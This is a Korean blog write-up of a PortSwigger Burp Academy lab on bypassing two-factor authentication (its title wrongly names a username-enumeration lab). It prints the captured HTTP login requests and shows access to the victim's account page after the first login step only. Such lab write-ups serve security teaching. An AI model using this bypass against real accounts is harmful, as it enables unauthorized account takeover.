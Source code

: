 ```yaml
---
layout: post
title: "Burp Academy-인증(Authentication) 취약점: Username enumeration via different responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 인증취약점]
toc: true
---
```


# 개요
- 인증(Authentication)에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/authentication/multi-factor
- 문제 주소: : https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass
- 난이도: APPRENTICE (쉬움)

# 문제 설명
- 2FA가 구현되어 있긴 하지만 취약하다. 첫번째 인증을 한 후에, 바로 인증후 화면에 접근하는 것으로 우회할 수 있다. 

```
This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

Your credentials: wiener:peter
Victim's credentials carlos:montoya
```

# 로그인 과정 관찰
## 1차 인증
주어진 ID와 비밀번호로 로그인한다. 로그인에 성공하면 /login2로 리다이렉트된다. 

```http
POST /login HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=ce40xcBlbIA8lwEYbtFxmIToeriR74a0
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a570061049085d282fda6be00d3001f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

username=wiener&password=peter
```

```
HTTP/2 302 Found
Location: /login2
Set-Cookie: session=xJhnWbYCf9cGdbS9o13kpwnOY6tpv7TB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

GET /login2로 요청하면 이메일로 전송된 네자리 인증코드를 입력하라는 화면이 회신된다. 


## 2차 인증
이메일에서 인증코드를 확인하고 2차 인증을 시도하면 다음과 같은 요청/응답이 발생한다.  

```http
POST /login2 HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=xJhnWbYCf9cGdbS9o13kpwnOY6tpv7TB
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a570061049085d282fda6be00d3001f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

mfa-code=0864
```

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=G18oFYiVd1HIxhemLxNbM8BWIt6ndp5X; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

# 2차 인증 우회하기 
1차 인증을 완료한 후에 바로 /my-account로 접속하는 것으로 2차 인증을 우회할 수 있을 것 같다. victim 계정으로 1차 인증을 하고, 2차 인증을 우회해본다. 

## 1차 인증 
carlos:montoya로 로그인한다. 

```
POST /login HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=8KGsSFUAe0LkBZQikcsqQjdJppNNfWw5
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a570061049085d282fda6be00d3001f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

username=carlos&password=montoya
```

2차인증 페이지로 이동하라고 회신된다. 
```
HTTP/2 302 Found
Location: /login2
Set-Cookie: session=x3OR2hBVklliP16ntze4tF7dWIGp3kgK; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

## 어카운트 정보 페이지로 이동

GET /login2 요청을 캡쳐해서 경로를 /my-account로 변경한다. 

```
GET /login2 HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=x3OR2hBVklliP16ntze4tF7dWIGp3kgK
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```

그러면 다음과 같이 carlos 계정으로 로그인이 성공한 것을 알 수 있다. 

![calor계정 로그인 성공](/images/burp-academy-authn-2-1.png)

이 상태에 우측 상단에 있는 My account를 클릭한다. 

그러면 GET /my-account?id=carlos 요청이 발생하고 문제 풀이에 성공했다는 메세지가 출력된다. 

![문제 풀이 성공](/images/burp-academy-authn-2-success.png)